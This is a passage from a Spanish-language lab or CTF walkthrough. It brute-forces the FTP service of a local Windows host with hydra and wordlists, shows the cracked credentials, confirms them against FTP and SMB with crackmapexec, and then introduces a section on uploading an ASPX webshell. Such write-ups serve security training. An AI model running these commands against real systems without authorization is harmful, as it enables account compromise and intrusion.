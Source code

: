 
<h2 id="FTPbrute">Aplicando Fuerza Bruta al Servicio FTP</h2>

Vamos a empezar aplicando **fuerza bruta** al **servicio FTP**, pero al no tener un usuario, debemos especificar un diccionario de usuarios.

Yo usaré el diccionario de usuarios de **seclists**, que debería está en la ruta: `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`.

Esta vez, usaremos otro diccionario para las contraseñas, ya que **rockyou.txt** tarda demasiado y no encuentra la contraseña, este será: `/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt`.

Apliquemos el ataque con **hydra**:
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 192.168.1.80 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-03 13:50:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43048882131570 login tries (l:8295455/p:5189454), ~2690555133224 tries per task
[DATA] attacking ftp://192.168.1.80:21/
[STATUS] 4305.00 tries/min, 4305 tries in 00:01h, 43048882127265 to do in 166662338:52h, 16 active
[21][ftp] host: 192.168.1.80   login: info   password: PolniyPizdec0211
...
```
Excelente, vamos a comprobar con **crackmapexec** si son válidos.

Primero con el **servicio FTP**:
```bash
crackmapexec ftp 192.168.1.80 -u 'info' -p 'PolniyPizdec0211'
FTP         192.168.1.80 21     192.168.1.80  [*] Banner: Microsoft FTP Service
FTP         192.168.1.80 21     192.168.1.80  [+] info:PolniyPizdec0211
```
Sí funcionan.

Ahora con el **servicio SMB**:
```bash
crackmapexec smb 192.168.1.80 -u 'info' -p 'PolniyPizdec0211'
SMB         192.168.1.80 445    WIN-JG67MIHZH2X  [*] Windows 6.0 Build 6001 (name:WIN-JG67MIHZH2X) (domain:WIN-JG67MIHZH2X) (signing:False) (SMBv1:False)
SMB         192.168.1.80 445    WIN-JG67MIHZH2X  [+] WIN-JG67MIHZH2X\info:PolniyPizdec0211
```
También funcionan.

Ahora podemos entrar al **servicio FTP** y al **servicio SMB**, aunque en **SMB** no encontraremos nada, así que vamos directo con **FTP**.

<br>

<h2 id="EnumFTPyWebshell">Enumeración de Servicio FTP y Subiendo una WebShell de ASPX</h2>

